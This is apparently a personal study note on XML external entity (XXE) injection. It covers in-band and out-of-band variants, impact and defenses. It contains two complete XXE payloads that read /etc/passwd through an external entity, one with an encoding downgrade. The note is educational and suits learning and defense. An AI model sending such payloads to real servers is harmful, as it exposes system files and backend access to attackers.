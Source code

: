 **Type:** #type/theory
**Tags:**  #tech/web #goal/exploitation 

---

[[2_Tech-Specifics/_Other/XML|xml basics]]
app uses untrusted xml-documents - e.g. provided by the user
xml files are generated based on user input without input validation 

**2 Types:**
1.  in-band XXE: attacker receives immediate response to payload
2.  out-of-band XXE: no immediate respone, output has to be reflected to some file or server
## Examples
short xml file to read the contents of /etc/passwd
``` xml
<?xml version="1.0" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
sometimes, the xml version has to be downgraded to a certain encoding:
``` xml
<?xml version="1.0" encoding="ISO-8859-1" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
### Impact
- attackers can interact with backend or external systems
- readout of local files
- DoS attacks
### Defense
- use secure and updated xml-parser and SOAP framework
- deactivate parsing of DTDs (Document type definitions)
- validate data that is insertedinto an xml file
- validate xml file against xms 